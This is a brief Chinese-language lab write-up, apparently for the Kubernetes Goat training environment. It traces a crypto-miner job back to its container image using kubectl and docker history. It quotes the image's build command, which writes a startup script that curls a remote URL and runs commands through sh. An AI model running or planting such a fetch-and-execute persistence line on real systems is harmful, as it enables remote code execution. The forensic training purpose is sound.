

# Analyzing crypto miner container

## Story


## Solution

关于挖矿病毒的溯源，在k8s的环境下，大致的溯源过程就是为`job/pod -> image -> image built command`。现在，就让我们来试试吧！

```
kubectl get jobs
```


先获取执行了哪些任务，job其实就是类似于我们创建服务的脚本，我们可以获取job的详细信息来看看。

```
kubectl describe job batch-check-job
```


可以看到利用了`madhuakula/k8s-goat-batch-check`这个镜像，通过`docker history`命令，我们可以查看这个镜像在哪里被创建了。

通过`--no-trunc :`显示完整的提交记录。

```
docker history --no-trunc madhuakula/k8s-goat-batch-check
```

这边因为网络问题，不能拉取镜像，所以job执行失败了=。=

所以就贴一下官方的图片。



我们可以看到执行了下面的命令去获取远程的脚本并执行。

```
echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup && chmod +x /usr/bin/system-startup
```

但是目前官网给的这个链接噶掉了，因为上面提到的环境问题，所以我也不知道job里面执行的真实的命令是怎么样，如果最后有师傅做出来了，欢迎和我交流。

